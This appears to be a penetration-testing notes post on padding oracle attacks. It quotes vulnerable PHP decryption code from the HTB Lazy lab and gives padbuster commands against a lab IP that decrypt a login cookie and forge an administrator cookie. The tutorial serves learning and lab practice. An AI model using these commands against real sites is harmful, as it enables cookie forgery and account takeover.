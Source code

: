 ```yaml
---
layout: post
title: Padding Oracle Attack
description: Padding Oracle Attack
summary: Padding Oracle Attack
tags: [web,crypto,foothold]
minute: 1
---
```

## Overview
CBD mode PKCS7 format uses padding to complete the block length when encrypting plaintext.

![](/assets/Padding Oracle Attack/padding.png)

Attacker can leverage this behaviour to get the plaintext by manipulating the ciphertext byte by byte in a trial and error fashion and observing whether the application will return error (invalid padding) or success (valid padding).

This kind of crypto may be safe but the real attack surface is on whether your app is returning error on invalid padding which will give an attacker chance to brute force the correct plaintext.

```php
// example file from HTB lazy
function decryptString($encryptedText, $passphrase) {
  $encrypted = base64_decode($encryptedText);
  $iv_size =  mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC);
  $iv = substr($encrypted,0,$iv_size);
  $dec = mcrypt_decrypt(MCRYPT_DES, $passphrase, substr($encrypted,$iv_size), MCRYPT_MODE_CBC, $iv);
  $str = pkcs5_unpad($dec);
  if ($str === false) {
    echo "Invalid padding"; // really? you want to be hacked?
    die();                  // maybe let's replace that or
  }                         // remove entirely?
  else {
    return $str;
  }
}
```

This is also a type of CCA or Chosen Ciphertext Attack.

## Details on ciphertext manipulation
Go to "The Theory" part of this [link](https://pentesterlab.com/exercises/padding_oracle/course).

## Detection
* Try manipulating cookie values. See if webapp will error response such as `invalid padding` or `500`,

## Exploitation
* Using padbuster

```bash
# installation
sudo apt-get install padbuster

# detection
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="

# gets an admin cookie
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```

* Using [bit flippingattack](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#path-2-bit-flip-attack). Here is another resource from [ippsec](https://www.youtube.com/watch?v=3VxZNflJqsw&t=460s) using Burp.

## References
* [Padding Oracle - HackTricks](https://book.hacktricks.xyz/cryptography/padding-oracle-priv#padding-oracle)
* [HTB Lazy](https://www.youtube.com/watch?v=3VxZNflJqsw)
* [Mathematical Explanation](https://www.youtube.com/watch?v=aH4DENMN_O4&t=873s)
* [The Padding Oracle Attack](https://robertheaton.com/2013/07/29/padding-oracle-attack/)
